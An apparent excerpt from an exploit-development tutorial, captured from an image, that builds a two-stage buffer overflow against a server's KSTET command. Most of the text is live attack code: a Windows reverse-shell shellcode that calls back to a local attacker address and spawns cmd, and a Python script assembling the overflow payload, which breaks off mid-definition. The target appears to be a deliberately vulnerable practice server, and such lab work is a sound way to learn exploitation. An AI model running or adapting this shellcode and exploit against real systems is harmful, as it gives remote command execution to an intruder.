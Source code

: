 ``` console
SHELL += b"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
SHELL += b"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
SHELL += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
SHELL += b"\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
SHELL += b"\x87\x1d\x60\xff\xd5\xbb\xaa\xc5\xe2\x5d\x68\xa6"
SHELL += b"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
SHELL += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
```

And update our exploit:

``` python
import socket
import struct
import time

HOST = '192.168.0.20'
PORT = 9999

STAGE1 = (
    b'\x83\xec\x64\x31\xff\x31\xdb\x53\x80\xc7\x04\x53' +
    b'\x89\xe3\x83\xc3\x64\x53\x47\x57\xb8\x90\x2c\x25' +
    b'\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75\xe3'
)

SHELL =  b""
SHELL += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
SHELL += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
SHELL += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
SHELL += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
SHELL += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
SHELL += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
SHELL += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
SHELL += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
SHELL += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
SHELL += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
SHELL += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
SHELL += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
SHELL += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
SHELL += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
SHELL += b"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
SHELL += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8"
SHELL += b"\x00\x12\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56"
SHELL += b"\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
SHELL += b"\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
SHELL += b"\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
SHELL += b"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
SHELL += b"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
SHELL += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
SHELL += b"\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
SHELL += b"\x87\x1d\x60\xff\xd5\xbb\xaa\xc5\xe2\x5d\x68\xa6"
SHELL += b"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
SHELL += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

# Create STAGE2 with the shellcode and pad the rest of the
# 1024 buffer with NOPs
STAGE2 = SHELL + b'\x90' * (1024 - len(SHELL))

PAYLOAD = (
    b'KSTET ' +
    # NOP Padding
    b'\x90' * 8 +
    STAGE1 +
    b'A' * (70 - 8 - len(STAGE1)) +
```